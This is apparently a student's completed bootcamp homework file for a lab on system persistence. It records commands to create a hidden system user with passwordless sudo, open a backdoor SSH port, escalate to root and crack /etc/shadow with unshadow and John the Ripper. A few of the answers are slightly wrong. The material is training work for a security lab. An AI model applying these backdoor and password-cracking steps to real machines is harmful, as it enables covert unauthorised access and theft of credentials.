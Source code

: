 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser sysd`

2. Give your secret user a password: 
    - `Pi$$a76`

3. Give your secret user a system UID < 1000:
    - `usermod -u 988 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 988 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   - in visudo -
   - sysd ALL=(ALL) NOPASSWORD:ALL

6. Test that `sudo` access works without your password:

    sudo -l

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `Your solution command here`

    systemctl restart ssh.service

2. Exit the `root` account:
    - `Your solution command here`

    su sysadmin

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here`

    ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - `Your solution command here`

    sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`

    ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`

    sudo su root

---/usr/sbin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db
---john /tmp/crack.password.db
---john -show /tmp/crack.password.db | awk -F: '{print $1, $2}'

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

